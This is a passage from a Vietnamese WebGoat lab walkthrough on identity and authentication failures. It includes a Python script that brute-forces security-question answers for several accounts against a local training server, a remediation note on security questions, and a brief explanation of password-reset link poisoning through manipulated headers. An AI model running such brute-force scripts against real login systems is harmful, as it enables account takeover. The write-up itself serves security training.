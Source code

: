 ```python
import requests

colors = ["red", "blue", "green", "yellow", "orange", "purple", 
"pink", "brown", "black", "white", "gray", "cyan", "magenta", "lime", "teal", 
"lavender", "maroon", "navy", "olive", "coral", "turquoise", "violet", "gold", "silver", 
"beige", "tan", "peach", "mint", "indigo", "aqua"]

account = ['tom', 'admin', 'larry']

headers = {  
    'Cookie': 'JSESSIONID=0FuKaJFAXbU6Yrw7EPUG24t4MySLL7BSwNIuQ18_'
}  

URL = "http://localhost:8080/WebGoat/PasswordReset/questions"

for acc in account:
    # username=fqw&securityQuestion=fqw
    for color in colors:
        data = {
            "username": acc,
            "securityQuestion": color
        }
        response = requests.post(URL, data=data, headers=headers)
        json = response.json()
        if "Sorry the solution is not correct" not in json["feedback"]:
            print(f"[+] Username: {acc}")
            print(f"[=>] Security Question: {color}")
            break
```

- Chạy payload và thu được các câu hỏi bảo mật đúng của từng tài khoản người dùng

![img](/img/WebGoat/(A7)%20Identity%20&%20Auth%20Failure%20ecda853d23ed41a8bd81e356f36b18e3/image%2025.png)

### Cách khắc phục

- Để các câu hỏi bảo mật khó đoán và không có một danh sách trả lời cố định.
    - Ví dụ:
    - **Tên của con vật nuôi đầu tiên của bạn là gì?**
    - **Tên trường tiểu học mà bạn đã học là gì?**
    - **Tên của người bạn thân nhất thời thơ ấu của bạn là gì?**
    - **Tên thành phố nơi bạn sinh ra là gì?**
    - **Tên trường trung học mà bạn đã tốt nghiệp là gì?**

## Lab 6

### Nguyên nhân lỗi

- Không kiểm tra kỹ hết các header được sử dụng cho việc tạo link reset mật khẩu → Điều này khiến cho hacker có thể thao túng đường dẫn reset password và tạo ra một url giả để chiếm được đường dẫn reset password của người dùng.
